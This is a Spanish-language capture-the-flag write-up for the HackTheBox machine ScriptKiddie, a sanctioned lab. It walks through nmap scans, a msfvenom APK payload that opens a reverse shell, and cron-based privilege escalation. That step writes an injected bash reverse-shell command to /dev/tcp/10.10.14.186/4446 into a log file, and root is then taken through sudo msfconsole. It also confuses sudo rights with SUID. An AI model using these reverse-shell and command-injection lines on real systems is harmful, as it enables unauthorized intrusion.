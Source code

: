 ```yaml
---
title: HackTheBox ScriptKiddie
date: 2021-06-16 12:00:00 -0400
image: 
  src: https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/scriptkiddie/banner.jpg
  height: 1100
  width: 500
categories: [HTB Writeups, Linux Easy]
tags: [cronjobs, payload, mestasploit, suid, exploit, msfvenom]
---
```


***

**Machine IP**: 10.10.10.226

**DATE**  : 16/06/2021

***


## Reconocimiento
Primero hacemos un escaneo de puertos para saber cuales están abiertos y conocer sus servicios correspondientes.

## Nmap 

```bash
┌──(s4yhii㉿kali)-[~]
└─$ nmap -p- --open -T5 -v -n 10.10.10.226                 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-15 20:45 EDT
Initiating Ping Scan at 20:45
Scanning 10.10.10.226 [2 ports]
Completed Ping Scan at 20:45, 0.12s elapsed (1 total hosts)
Initiating Connect Scan at 20:45
Scanning 10.10.10.226 [65535 ports]
Discovered open port 22/tcp on 10.10.10.226
Stats: 0:00:20 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 29.62% done; ETC: 20:46 (0:00:48 remaining)
Discovered open port 5000/tcp on 10.10.10.226
Completed Connect Scan at 20:46, 60.38s elapsed (65535 total ports)
Nmap scan report for 10.10.10.226
Host is up (0.12s latency).
Not shown: 52711 closed ports, 12822 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 60.62 seconds
```

Como vemos tiene 2 puertos abiertos el `22` y el `5000` uno con el servicio `ssh` y el otro con el servicio de `Plug and Play`, que se usa para conectar impresoras, dispositivos bluetooh, etc.

Analizando las versiones de los puertos abiertos encontramos lo siguiente.

```bash
┌──(s4yhii㉿kali)-[~]
└─$ nmap -sC -sV -n -p22,5000 10.10.10.226
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-15 20:55 EDT
Nmap scan report for 10.10.10.226
Host is up (0.12s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.78 seconds
```

Econtramos que hay un `servidor web` corriendo en el puerto 5000 con la cabecera `k1d'5 h4ck3r t00l5`, lo abrimos en el navegador.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/scriptkiddie/web.png)

Luego de analizar estas 3 funcionalidades me di cuenta que la parte de `payloads` acepta un archivo , el cual podríamos generar con `msfvenom`, por eso buscamos en exploits `msfvenom` y nos genera solo un resultado.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/scriptkiddie/venom.png)

Abrimos `mestasploit` para generar el apk con el payload, configuramos `LPORT` y `LHOST` con nuestra ip y el puerto asignado y nos genera un apk ,el cual procederemos a subir a la web como template.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/scriptkiddie/apk.png)

Una vez generado subimos a la web y escribimos la ip de nuestra maquina y como OS seleccionamos android, ya que es una apk, luego ponemos en escucha nuestra maquina con el comando `nc -nlvp 4444` y le damos a generar.

Automáticamente se nos abrirá una reverse shell con el usuario kid.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/scriptkiddie/reverse.png)

Luego como tenemos acceso de escritura de la carpeta `.ssh`, añadiremos nuestro `id_rsa` a la carpeta de `known_hosts` para conectarnos directamente desde nuestra maquina via `ssh`.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/scriptkiddie/ssh.png)

Como vemos ahora tenemos una shell más interactiva y tenemos acceso al `user.txt`.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/scriptkiddie/usertxt.png)

## Escalamiento de privilegios

Como podemos ver este script es ejecutado con permisos pwn, y nos dice que abrirá el archivo hackers para hacer un nmap. 
Al igual que la maquina bashed, se aprovecha de una tarea automática `cron`, que es ejecutado como usuario pwn, pero el log `hackers` se puede editar por `kid`, entonces esa será nuestra idea, cargaremos el archivo `hackers` con una `reverse shell bash`.



```bash
  echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.186/4446 0>&1' #" > hackers
```

Dejamos 2 espacios, ya que en el script de `scanlosers` al momento de tomar el texto toma a partir del 3er espacio porque hay un `cut -f3-`, que tomaria los paramatros a partir del 3ero. 

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/scriptkiddie/pwn.png)

Como vemos obtuvimos una shell como pwn gracias al script `scanlosers` y ahora enumeraremos con sudo -l los binarios con permisos `SUID`

```bash
sudo -l
```

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/scriptkiddie/suid.png)

Como vemos metasploit tiene permisos `SUID` para ejecutarse como `root`, entonces lo ejecutamos con sudo msfconsole y bingo obtenemos sesión como root y podremos ver el `root.txt`

```bash
sudo msfconsole
```

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/scriptkiddie/roottxt.png)

!Gracias por leer.